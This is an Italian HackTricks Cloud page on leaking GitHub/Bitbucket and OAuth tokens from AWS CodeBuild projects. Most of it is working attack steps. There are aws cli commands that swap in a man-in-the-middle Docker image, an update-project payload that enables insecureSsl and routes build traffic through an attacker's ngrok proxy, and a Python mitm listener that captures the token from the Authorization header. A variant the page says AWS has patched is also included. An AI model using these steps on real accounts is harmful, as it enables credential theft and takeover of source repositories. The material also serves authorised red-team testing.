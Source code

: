 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recupera i token configurati di Github/Bitbucket

Prima di tutto, controlla se ci sono credenziali sorgente configurate che potresti leak:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Se scopri che l'autenticazione, ad esempio su Github, è impostata nell'account, puoi **esfiltrare** quell'**accesso** (**token GH o token OAuth**) facendo in modo che Codebuild **utilizzi un'immagine docker specifica** per eseguire la build del progetto.

A questo scopo potresti **creare un nuovo progetto Codebuild** o modificare l'**ambiente** di uno esistente per impostare l'**immagine Docker**.

L'immagine Docker che potresti utilizzare è [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Questa è un'immagine Docker molto basilare che imposterà le **variabili d'ambiente `https_proxy`**, **`http_proxy`** e **`SSL_CERT_FILE`**. Questo ti permetterà di intercettare la maggior parte del traffico dell'host indicato in **`https_proxy`** e **`http_proxy`** e di fidarti del certificato SSL indicato in **`SSL_CERT_FILE`**.

1. **Crea e carica la tua immagine Docker MitM**
* Segui le istruzioni del repo per impostare il tuo indirizzo IP proxy e impostare il tuo certificato SSL e **costruire l'immagine docker**.
* **NON IMPOSTARE `http_proxy`** per non intercettare le richieste all'endpoint dei metadati.
* Potresti usare **`ngrok`** come `ngrok tcp 4444` per impostare il proxy sul tuo host.
* Una volta che hai costruito l'immagine Docker, **caricala su un repo pubblico** (Dockerhub, ECR...)
2. **Imposta l'ambiente**
* Crea un **nuovo progetto Codebuild** o **modifica** l'ambiente di uno esistente.
* Imposta il progetto per utilizzare l'**immagine Docker precedentemente generata**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Imposta il proxy MitM nel tuo host**

* Come indicato nel **repo di Github**, potresti usare qualcosa come:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **versione di mitmproxy utilizzata era la 9.0.1**, è stato segnalato che con la versione 10 questo potrebbe non funzionare.
{% endhint %}

4. **Esegui la build e cattura le credenziali**

*   Puoi vedere il token nell'intestazione **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Questo potrebbe essere fatto anche dalla aws cli con qualcosa come

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

I progetti **Codebuild** hanno un'impostazione chiamata **`insecureSsl`** che è nascosta nel web e puoi cambiarla solo dall'API.\
Abilitando questo, consente a Codebuild di connettersi al repository **senza controllare il certificato** offerto dalla piattaforma.

* Prima devi enumerare la configurazione attuale con qualcosa come:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Poi, con le informazioni raccolte, puoi aggiornare le impostazioni del progetto **`insecureSsl`** a **`True`**. Di seguito è riportato un esempio del mio aggiornamento di un progetto, nota il **`insecureSsl=True`** alla fine (questo è l'unica cosa che devi cambiare dalla configurazione raccolta).
* Inoltre, aggiungi anche le variabili d'ambiente **http\_proxy** e **https\_proxy** che puntano al tuo tcp ngrok come: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Quindi, esegui l'esempio di base da [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) nella porta indicata dalle variabili proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Infine, clicca su **Build the project**, le **credenziali** saranno **inviate in chiaro** (base64) alla porta mitm:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### ~~Via protocollo HTTP~~

{% hint style="success" %}
**Questa vulnerabilità è stata corretta da AWS in qualche momento della settimana del 20 febbraio 2023 (penso venerdì). Quindi un attaccante non può più abusarne :)**
{% endhint %}

Un attaccante con **permessi elevati su un CodeBuild potrebbe esporre il token Github/Bitbucket** configurato o se i permessi sono stati configurati tramite OAuth, il **token OAuth temporaneo utilizzato per accedere al codice**.

* Un attaccante potrebbe aggiungere le variabili ambientali **http\_proxy** e **https\_proxy** al progetto CodeBuild puntando alla sua macchina (ad esempio `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Poi, cambiare l'URL del repository github per utilizzare HTTP invece di HTTPS, ad esempio: `http://github.com/carlospolop-forks/TestActions`
* Poi, eseguire l'esempio base da [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) nella porta indicata dalle variabili proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Infine, clicca su **Build the project**, le **credenziali** saranno **inviate in chiaro** (base64) alla porta mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ora un attaccante sarà in grado di utilizzare il token dalla sua macchina, elencare tutti i privilegi che ha e (ab)usare più facilmente rispetto all'utilizzo diretto del servizio CodeBuild.
{% endhint %}

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
